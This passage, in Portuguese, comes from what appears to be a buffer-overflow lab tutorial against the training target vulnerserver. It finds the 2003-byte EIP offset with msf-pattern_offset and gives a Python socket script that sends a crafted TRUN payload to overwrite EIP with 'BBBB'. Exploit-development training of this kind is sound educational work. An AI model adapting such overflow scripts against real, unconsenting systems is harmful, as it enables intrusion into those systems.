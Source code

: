 Novamente o programa sofreu crash, mas temos o endereço do EIP: 386F4337.
Vamos consultar no msf-pattern_offset para identificar o endereço preciso para sobrescrever o ESP.

![Immunity.](/img/std/winbof/winbof-9.png)

Temos o offset preciso para atingir o EIP: 2003 bytes.
Vamos atualizar nosso exploit e verificar, vamos inserir 2003 “A” + 4 “B” e o restante de “C”, se o offset estiver correto, vamos preencher o EIP com “42424242” (B em hexa), e o ESP com vários “C”.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../" # funcao inicial
payload += b"A"*2003 # preenchimento do buffer
payload += b"B"*4 # sobrescreve EIP
payload += b"C" * (5061 - 2003 - 4) # sobrescreve ESP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```

Vamos reiniciar o vulnserver no Immunity debbuger e rodar nosso script novamente.
